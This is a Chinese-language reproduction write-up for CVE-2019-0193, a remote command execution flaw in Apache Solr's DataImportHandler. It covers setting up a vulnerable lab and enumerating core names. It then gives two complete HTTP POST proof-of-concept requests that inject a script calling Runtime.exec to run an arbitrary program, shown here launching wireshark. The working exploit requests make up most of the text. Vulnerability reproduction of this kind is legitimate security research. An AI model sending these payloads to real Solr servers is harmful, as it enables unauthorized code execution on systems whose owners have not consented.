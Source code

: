 CVE-2019-0193 复现概述
--

### 影响范围

Apache Solr < 8.2.0

### 环境搭建

版本： solr 7.7.2

环境搭建这里是比较坑的，我之前不知道solr有dataimporthandler的案例，搭建环境花费了很长时间，总是报错，而且还没有成功23333。实际上只需要如下命令就行

`bin/solr -e dih`

上面的命令就会启动一个搭建好dataimporthandler的环境，访问8983端口，我们就能直接复现漏洞了。

### 漏洞复现

这个漏洞利用的前提就是需要知道core一个core的名字，这个我们可以通过访问

`http://127.0.0.1:8983/solr/admin/cores`

获取，如下

![](assets/cores.png)

我们接下来就以atom这个core为例进行复现。poc1如下：

```
POST /solr/atom/dataimport HTTP/1.1
Host: 127.0.0.1:8983
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: bdshare_firstime=1564113816358
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 501

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=atom&name=dataimport&dataConfig=
<dataConfig>
<dataSource type="URLDataSource"/>
<script><![CDATA[
function poc(row){
var process= java.lang.Runtime.getRuntime();
process.exec("wireshark");
return row;
}
]]></script>
<document>
<entity name="stackoverflow"
url="https://stackoverflow.com/feeds/tag/solr"
processor="XPathEntityProcessor"
forEach="/feed"
transformer="script:poc" />
</document>
</dataConfig>


```

上面的poc中的atom替换为你自己环境中的core名，然后我这里是启动wireshark,这个自己随机指定一个软件都行。

![](assets/poc.png)

上面那个poc是利用了stackoverfolw返回的xml文档， 稳定性不太好，接下来这个poc更具有普适性

```
POST /solr/atom/dataimport HTTP/1.1
Host: 127.0.0.1:8983
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: bdshare_firstime=1564113816358
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 554

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=atom&name=dataimport&dataConfig=
<dataConfig>
<dataSource type="URLDataSource"/>
<script><![CDATA[
function poc(row){
var process= java.lang.Runtime.getRuntime();
process.exec("wireshark");
return row;
}
]]></script>
<document>
<entity name="stackoverflow"
url="http://127.0.0.1:8983/solr/admin/info/system?wt=xml"
processor="XPathEntityProcessor"
forEach="/response"
transformer="HTMLStripTransformer,RegexTransformer,script:poc" />
</document>
</dataConfig>
```

效果如下：

![](assets/poc2.png)

**这个poc比较重要的一点就是url的值，这个值链接的目标应该返回一个正常的xml文档**



